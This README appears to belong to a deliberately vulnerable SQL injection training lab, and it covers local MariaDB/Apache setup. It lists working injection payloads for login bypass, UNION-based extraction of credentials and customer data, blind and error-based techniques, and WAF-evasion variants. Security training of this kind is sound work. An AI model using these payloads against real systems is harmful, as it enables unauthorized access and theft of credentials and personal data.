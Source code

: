 # 🎯 H&F Tactical SQL Injection Testing Environment

## 📋 Setup Instructions

### **1. Install MySQL/MariaDB**
```bash
# On Kali Linux
sudo apt update
sudo apt install mariadb-server mariadb-client

# Start MySQL service
sudo systemctl start mariadb
sudo systemctl enable mariadb

# Secure installation (optional)
sudo mysql_secure_installation
```

### **2. Create Database**
```bash
# Login to MySQL
sudo mysql -u root -p

# Create database and user
CREATE DATABASE hf_tactical;
CREATE USER 'hf_user'@'localhost' IDENTIFIED BY 'hf_password';
GRANT ALL PRIVILEGES ON hf_tactical.* TO 'hf_user'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

### **3. Import Database**
```bash
# Import the SQL file
mysql -u root -p hf_tactical < logs/hf_tactical_database.sql
```

### **4. Install PHP and Apache (for vulnerable web app)**
```bash
# Install LAMP stack
sudo apt install apache2 php php-mysql

# Start Apache
sudo systemctl start apache2
sudo systemctl enable apache2

# Copy PHP file to web directory
sudo cp logs/vulnerable_login.php /var/www/html/
sudo chown www-data:www-data /var/www/html/vulnerable_login.php
```

### **5. Access the Vulnerable Application**
- **URL**: http://localhost/vulnerable_login.php
- **Database**: hf_tactical
- **Test credentials**: admin / admin123

## 🔓 SQL Injection Testing Targets

### **1. Login Bypass**
**Target**: Username field in login form
**Payloads**:
```sql
admin' OR '1'='1' --
admin' OR '1'='1' #
' OR 1=1 --
admin' OR 'x'='x
```

### **2. Data Extraction (UNION-based)**
**Target**: Username field
**Payloads**:
```sql
admin' UNION SELECT username,password,email,role,security_clearance,null,null,null,null,null FROM users --
admin' UNION SELECT customer_id,organization_name,contact_person,email,security_clearance,null,null,null,null,null FROM customers --
admin' UNION SELECT product_id,product_name,category,price,security_clearance_required,null,null,null,null,null FROM product_inventory WHERE restricted_item=1 --
```

### **3. Search Function Injection**
**Target**: Customer search field
**Payloads**:
```sql
FBI' UNION SELECT customer_id,organization_name,contact_person,email,security_clearance,total_purchases,null,null,null,null,null,null,null FROM customers --
' OR 1=1 --
' OR security_clearance='TS/SCI' --
```

### **4. Error-based Injection**
**Payloads**:
```sql
admin' AND (SELECT COUNT(*) FROM users)>0 --
admin' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --
```

### **5. Time-based Blind Injection**
**Payloads**:
```sql
admin' AND (SELECT SLEEP(5)) --
admin' AND IF((SELECT COUNT(*) FROM users)>0,SLEEP(5),0) --
```

## 📊 Database Structure

### **Tables Available**:
- `users` - Login credentials (8 users)
- `employees` - Employee records (5 employees)
- `customers` - Customer database (5 customers)
- `product_inventory` - Tactical products (6 products)
- `sales_records` - Sales transactions (5 orders)
- `network_logs` - Network access logs (10 entries)

### **High-Value Targets**:
- **Classified products** with TS/SCI clearance requirements
- **Customer data** with security clearances
- **Employee SSN** last 4 digits
- **Sales data** with government contracts

## 🎯 Practice Scenarios

### **Scenario 1: Credential Harvesting**
Extract all usernames and passwords from the users table.

### **Scenario 2: Customer Intelligence**
Extract all customers with Top Secret or TS/SCI clearances.

### **Scenario 3: Product Information**
Extract all restricted/classified products and their prices.

### **Scenario 4: Employee Data**
Extract employee contact information and security clearances.

### **Scenario 5: Financial Intelligence**
Extract high-value sales records and customer purchase totals.

## 🛡️ Detection Evasion

### **WAF Bypass Techniques**:
```sql
-- Comment variations
admin'/**/OR/**/'1'='1'/**/--
admin'/*comment*/OR/*comment*/'1'='1'--

-- Case variations
Admin' Or '1'='1' --
ADMIN' OR '1'='1' --

-- Encoding
admin%27%20OR%20%271%27%3D%271%27%20--

-- Alternative operators
admin' || '1'='1' --
admin' | '1'='1' --
```

## ⚠️ Ethical Usage

This environment is designed for:
- ✅ **Authorized penetration testing**
- ✅ **Security education and training**
- ✅ **SQL injection skill development**
- ✅ **Defensive security research**

**Never use these techniques against systems you don't own or lack explicit permission to test.**

## 🔧 Troubleshooting

### **Common Issues**:

**MySQL Connection Error**:
- Check if MySQL service is running: `sudo systemctl status mariadb`
- Verify credentials in vulnerable_login.php

**PHP Errors**:
- Check Apache error log: `sudo tail -f /var/log/apache2/error.log`
- Ensure PHP MySQL extension is installed: `sudo apt install php-mysql`

**Permission Denied**:
- Set proper file permissions: `sudo chmod 644 /var/www/html/vulnerable_login.php`

---
**Happy SQL Injection Testing! 🎯**
